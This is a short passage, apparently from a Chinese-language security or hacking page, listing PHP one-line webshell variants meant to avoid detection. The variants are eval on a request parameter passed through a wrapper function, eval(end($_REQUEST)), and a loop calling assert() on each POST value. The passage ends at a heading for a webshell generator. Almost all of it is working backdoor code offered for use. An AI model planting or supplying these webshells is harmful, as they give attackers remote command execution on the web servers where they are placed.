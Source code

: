 **通过函数强行分割**
```php
<?php
function a($a){
    return $a;}
eval (a($_REQUEST)['shell']);
?>
```

**使用end()函数来代替**
```php
<?php eval(end($_REQUEST)); ?>
```

**函数组合**
```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
    assert($value);
}
```
![](img/15.png)

---

## webshell_venom 
